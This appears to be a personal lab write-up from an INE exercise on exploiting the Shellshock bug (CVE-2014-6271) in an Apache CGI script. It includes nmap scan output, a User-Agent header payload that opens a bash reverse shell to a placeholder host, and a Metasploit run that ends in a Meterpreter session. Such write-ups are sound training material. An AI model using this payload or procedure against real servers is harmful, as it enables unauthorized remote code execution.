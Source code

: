 Allow the attacker to do RCE
# 1. Check port 80
We can see that an Apache 2.4.6 is running.

```bash
$> nmap -sV 192.208.74.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-25 17:52 IST
Nmap scan report for demo.ine.local (192.208.74.3)
Host is up (0.000025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
MAC Address: 02:42:C0:D0:4A:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.39 seconds
```
# 2. Check shellshock vuln
First we have to find a .cgi file in the server.
Once you find the .cgi file you can check by doing the command:

```bash
$> nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"  192.208.74.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-25 18:09 IST
Nmap scan report for demo.ine.local (192.208.74.3)
Host is up (0.000025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://seclists.org/oss-sec/2014/q3/685
|_http-server-header: Apache/2.4.6 (Unix)
MAC Address: 02:42:C0:D0:4A:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```
# 3. Exploit - Manually
In burp suite, change the user agent of the request:

![[Pasted image 20241025144605.png]]

You can change the command to:
```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<IP>/<PORT> 0>&1'
```
# 3. Exploit - Metasploit
Use the module `auxiliary/scanner/http/apache_mod_cgi_bash_env`
```bash
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /gettime.cgi
TARGETURI => /gettime.cgi
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 192.208.74.2:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 192.208.74.3
[*] Meterpreter session 1 opened (192.208.74.2:4444 -> 192.208.74.3:33208) at 2024-10-25 18:26:01 +0530

meterpreter > 
```
